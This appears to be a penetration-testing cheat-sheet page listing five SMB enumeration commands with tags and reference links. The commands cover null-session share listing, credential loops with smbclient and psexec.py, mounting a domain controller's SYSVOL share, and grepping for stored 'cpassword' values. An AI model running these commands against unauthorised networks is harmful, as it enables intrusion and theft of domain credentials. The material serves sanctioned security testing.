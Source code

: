 ### 1. Null session smb
```
smbclient -I [IP] -L [domain] -N -U ""
```
**- linux,bash,smb**
#### References:

https://www.cyberciti.biz/faq/access-windows-shares-from-linux/
https://www.samba.org/samba/docs/man/manpages-3/smbclient.1.html
__________
### 2. loop to find user shares
```
for host in $(cat ../nmap/[IP File]); do echo "Trying $host"; smbclient -L $host -U  [DOM]/[USER]%'[PASS]'; done
```
**- linux,bash,loop,enumeration,smb**
#### References:

https://www.samba.org/samba/docs/man/manpages-3/smbclient.1.html
https://yg.ht
__________
### 3. loop for who is where
```
for host in $(cat userhosts.txt); do echo $host; psexec.py [DOMAIN]/[user]:'[pass]'@$host 'WMIC ComputerSystem Get UserName'; done | tee loggedin-dirty.txt;cat loggedin-dirty.txt | grep -v "^\[" | grep -v "^Impacket" | grep -v "^Trying" | grep -v "SMB SessionError" | sed '/^$/d'
```
**- loop,enumeration,user information,smb,impacket**
#### References:

https://yg.ht
https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 4. Mount Sysvol share (hosted on the DC)
```
mount -t cifs \\\\[victim]\\SYSVOL -o username=[user],password=[password] mount/; nautilus mount/;
```
**- linux,files,smb,filesystem**
#### References:

https://www.cyberciti.biz/faq/linux-mount-cifs-windows-share/
__________
### 5. Look in 'mount' for share (mount sysvol first)
```
egrep -r "cpassword|net" mount
```
**- linux,enumeration,smb**
#### References:
